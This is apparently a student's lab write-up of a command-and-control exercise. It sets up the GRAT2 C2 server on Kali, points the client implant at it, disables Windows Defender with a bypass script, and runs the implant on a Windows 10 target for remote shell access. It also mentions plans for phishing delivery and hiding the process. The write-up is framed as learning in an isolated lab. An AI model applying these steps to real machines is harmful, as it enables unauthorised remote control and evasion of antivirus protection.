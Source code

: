 ## Exercise 1 - Command and Control

This is an exercise presented to me by a mentor which I've recreated to gain an intro in malware propagation and transmition.

---
### Environment
This exercise was performed by having both the attack and target machine within the same network.
#### Operating System
Latest kali-VM rolling update (Red)
Windows10 up to date (Red)
Windows 10 up to date (Blue)
#### Tools
GRAT2 - C&C (source: https://github.com/r3nhat/GRAT2)
Bypass-Windows-Defender-VBS (Optional) (source: https://github.com/NYAN-x-CAT/Bypass-Windows-Defender-VBS/security)
Visual Studio 2022 (Community)

---
### Methodology
#### Objectives/Flags
Establish a C&C server on the Kali, Build malware on the Win10(Red) and            propagate the executable to the target Win10(Blue).
#### Reconnaissance
N/A
#### Weaponization 
The first step was to setup up `Visual Studio (2022 Community edition)` on the Win10 (Red) where the client executable will be built. Once installed it was just a matter of installing the necessary addons that would allow projects to be built. This was a struggle as I haven’t had exposure to this IDE and program development. The best way I could describe it was just ensuring I installed the latest dot.Net SDK frameworks (This was mostly done through trial and error of trying to build the executable and working with the errors to find out what was missing)

Once I downloaded and unzipped out the GRAT2 package, I opened `GRAT2_client.sln`. This as I understand it is the project file where we will then open the sub files to configure. My next task was to set the project to point towards my GRAT2 server which will be hosted on the kali.

On the kali I grabbed the local IPv4 address.
```
ifconfig
  192.168.xxx.xxx
```

From there I needed to install the necessary before we get started.
```
pip3 install -r ~/GRAT2-C&C/GRAT2-master/requirements.txt
```

Now we can launch the server on port 80
```
cd ~/GRAT2-C&C/GRAT2-master/GRAT2_Server
  python3 grat2.py 80
```
The server was now up and running and listening for incoming connections.

Moving back to the Win10(Red) we opened Config.cs and modified the control-server address on line 9.
```
~\GRAT2-master\GRAT2_Client
  c2 = "http://192.168.xxx.xxx/"
```
Now the executable was ready to build however I encountered two errors during this process. Firstly, I was receiving an error related to the target dot.NET framework which was expecting an earlier version that what was currently installed. In order to remediate this error I needed to find what version I was using and retarget the project to use that later version.
The steps I used to find my version of the framework can be found here: `https://www.windowscentral.com/how-quickly-check-net-framework-version-windows-10`
Now that I found my version, I retargeted the version in the `GRAT2_Cient.csproj`
```
<TargetFrameworkVersion>vX.X</TargetFrameworkVersion>
```
Lastly before I could the project, I needed to disable Windows defender as it was picking up the executable's malicious code. I was pointed towards using the `Bypass-Windows-Defender-VBS` which I mentioned earlier to turn it all off. This however wasn't enough and when I built the project, I needed to specifically allow the executable past defender.
Once the executable was successfully built, I found it here: `~\GRAT2-master\GRAT2_Client\bin\Debug\GRAT2_Client.exe`

#### Delivery
I kept it simple for my first attempt at this exercise simply by copying over the executable from the Win10(Red) to the Win10(Blue), however in future I'd like to experiment different delivery techniques such as having it hosted on a HTTP server running on the kali where I then use phishing to have the target get and run the file on the target machine.

#### Exploitation
N/A
#### Installation 
N/A
#### Command & Control
Once the executable is run on the target machine a blank black console appears which creates a connection to the Grat2 server running on Kali. This can be seen on the Kali as a notice that `hostname` has connected. I imagine this console window can be manipulated to remain hidden and run in the background, possibly under disguised service processes.
#### Actions on Objective
From here we can begin to explore and manipulate the target machine with shell access.
From the Grat2 server:
```
listagents
  help
```
---
### After-action
#### What I've learned
This was the first exposure I've had to a command & control tool. It was a bit of a struggle to get Visual Studio working properly to build it out but once figured out it worked as intended. The code itself was a bit too complex for me to understand immediately but I took away the concept of how a server is run and how a target can be connected to it.
#### What I would've done differently
If I was to come back to this exercise I would like to expand upon the attack-chain to deliver the .exe from my attack machine to the target. Additionally, I would like to find ways to experiment with ways to hide the running executable from users and expand upon the actions on objectives to gain more control/visibility over the target's network. 

